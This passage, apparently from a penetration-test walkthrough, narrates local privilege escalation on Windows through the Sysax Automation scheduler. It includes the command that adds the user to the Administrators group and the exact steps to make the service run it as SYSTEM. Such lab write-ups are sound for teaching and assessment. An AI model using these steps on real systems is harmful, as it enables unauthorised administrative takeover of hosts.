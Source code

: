 User name                    ilfserveradm
Full Name                    ilfserveradm
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/1/2022 2:17:17 PM
Password expires             Never
Password changeable          6/1/2022 2:17:17 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   6/1/2022 2:17:17 PM

Logon hours allowed          All

Local Group Memberships      *Remote Desktop Users
Global Group memberships     *None
The command completed successfully.
</code></pre>
<p>This isn't a domain user, but it's interesting that this user has Remote Desktop access but is not a member of the local admins group. Let's RDP in and see what we can do. After RDPing in and performing additional enumeration, we find some non-standard software installed in the <code>C:\Program Files (x86)\SysaxAutomation</code> directory. A quick search yields <a href="https://www.exploit-db.com/exploits/50834">this</a> local privilege escalation exploit. According to the write-up, this Sysax Scheduled Service runs as the local SYSTEM account and allows users to create and run backup jobs. If the option to run as a user is removed, it will default to running the task as the SYSTEM account. Let's test it out!</p>
<p>First, create a file called <code>pwn.bat</code> in <code>C:\Users\ilfserveradm\Documents</code> containing the line <code>net localgroup administrators ilfserveradm /add</code> to add our user to the local admins group (sometime we'd need to clean up and note down in our report appendices). Next, we can perform the following steps:</p>
<ul>
<li>Open <code>C:\Program Files (x86)\SysaxAutomation\sysaxschedscp.exe</code>
</li>
<li>Select <code>Setup Scheduled/Triggered Tasks</code>
</li>
<li>Add task (Triggered)</li>
<li>Update folder to monitor to be <code>C:\Users\ilfserveradm\Documents</code>
</li>
<li>Check <code>Run task if a file is added to the monitor folder or subfolder(s)</code>
</li>
<li>Choose <code>Run any other Program</code> and choose <code>C:\Users\ilfserveradm\Documents\pwn.bat</code>
</li>
<li>Uncheck <code>Login as the following user to run task</code>
</li>
<li>Click <code>Finish</code> and then <code>Save</code>
</li>
</ul>
<p>Finally, to trigger the task, create a new .txt file in the <code>C:\Users\ilfserveradm\Documents</code> directory. We can check and see that the <code>ilfserveradm</code> user was added to the <code>Administrators</code> group.</p>
<pre><code class="language-cmd-session">C:\Users\ilfserveradm&gt; net localgroup administrators
